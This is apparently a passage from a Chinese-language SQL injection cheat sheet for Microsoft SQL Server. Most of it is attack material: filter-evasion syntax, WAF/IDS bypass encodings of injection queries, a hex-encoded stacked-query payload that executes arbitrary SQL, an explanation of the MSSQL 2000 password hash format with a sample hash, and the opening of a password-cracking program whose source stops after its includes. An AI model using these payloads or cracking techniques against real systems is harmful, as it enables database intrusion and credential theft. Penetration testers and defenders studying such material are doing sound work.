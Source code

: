 **AND/OR后允许的特征**

```text
01 - 20    Range
21    !
2B    +
2D    -
2E    .
5C    \
7E    ~


Example:
SELECT 1FROM[table]WHERE\1=\1AND\1=\1;

tips:
反斜杠似乎不适用于MSSQL 2000。
```

#### 编码

编码有时可以bypass WAF/IDS.

```text
URL Encoding >>>> SELECT %74able_%6eame FROM information_schema.tables;
Double URL Encoding    SELECT %2574able_%256eame FROM information_schema.tables;
Unicode Encoding    >>>>   SELECT %u0074able_%u6eame FROM information_schema.tables;
Invalid Hex Encoding (ASP)    >>>> SELECT %tab%le_%na%me FROM information_schema.tables;
Hex Encoding    >>>> ' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x53454c4543542031 AS VARCHAR(4000)); EXEC (@S);--
HTML Entities (Needs to be verified)    %26%2365%3B%26%2378%3B%26%2368%3B%26%2332%3B%26%2349%3B%26%2361%3B%26%2349%3B
```

#### 密码破解

密码以0x0100开始，0x之后的第一个字节是常量; 接下来的八个字节是散列盐，其余的80个字节是两个散列，前40个字节是密码的区分大小写，而第二个40字节是大写字母。

0x0100236A261CE12AB57BA22A7F44CE3B780E52098378B65852892EEE91C0784B911D76BF4EB124550ACABDFD1457

Password Cracking A Metasploit module for JTR can be found here.

```text
MSSQL 2000 Password Cracker
This tool is designed to crack Microsoft SQL Server 2000 passwords.

 /////////////////////////////////////////////////////////////////////////////////
//
//           SQLCrackCl
//
//           This will perform a dictionary attack against the
//           upper-cased hash for a password. Once this
//           has been discovered try all case variant to work
//           out the case sensitive password.
//
//           This code was written by David Litchfield to
//           demonstrate how Microsoft SQL Server 2000
//           passwords can be attacked. This can be
//           optimized considerably by not using the CryptoAPI.
//
//           (Compile with VC++ and link with advapi32.lib
//           Ensure the Platform SDK has been installed, too!)
//
//////////////////////////////////////////////////////////////////////////////////
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
FILE *fd=NULL;
```